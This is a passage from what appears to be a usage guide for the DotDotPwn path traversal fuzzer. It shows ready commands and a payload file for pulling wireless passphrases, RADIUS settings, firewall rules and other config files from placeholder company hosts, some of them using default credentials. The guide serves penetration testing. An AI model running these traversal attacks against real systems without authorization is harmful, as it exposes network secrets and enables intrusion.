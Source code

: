 ### Wireless Access Point Testing

**Scenario**: Testing wireless access points and controllers.

```bash
# Test wireless configuration
python dotdotpwn.py --module http --host ap.company.com --file wireless.conf --pattern "passphrase" --depth 6

# Test controller configuration
python dotdotpwn.py --module http --host wlc.company.com --file controller.cfg --pattern "radius-server" --depth 8

# Test with authentication
python dotdotpwn.py --module http --host secure-ap.company.com --username admin --password admin --pattern "ssid" --file config.xml --depth 6
```

### Firewall Testing

**Scenario**: Testing firewall management interfaces.

```bash
# Test firewall web interface
python dotdotpwn.py --module http --host firewall.company.com --file firewall.conf --pattern "access-list" --depth 8

# Test with SSL and authentication
python dotdotpwn.py --module http --host secure-fw.company.com --ssl --username admin --password firewall123 --pattern "policy" --file rules.xml --depth 6
```

## 🔧 Custom Protocol Testing

### Custom Service Testing

**Scenario**: Testing proprietary or custom network services.

#### Custom TCP Service
```bash
# Test custom protocol on port 9999
python dotdotpwn.py --module payload --host custom-service.company.com --port 9999 --payload-file custom_payloads.txt --pattern "access granted" --delay 1.0
```

#### Custom Payload File (`custom_payloads.txt`)
```
GET TRAVERSAL/config.ini HTTP/1.1\r\nHost: custom-service.company.com\r\n\r\n
RETRIEVE TRAVERSAL/database.conf\r\n
LIST TRAVERSAL/\r\n
SHOW TRAVERSAL/system.cfg\r\n
```

#### SSL Custom Service
```bash
# Test custom SSL service
python dotdotpwn.py --module payload --host secure-custom.company.com --port 8443 --ssl --payload-file ssl_payloads.txt --pattern "database" --delay 0.5
```
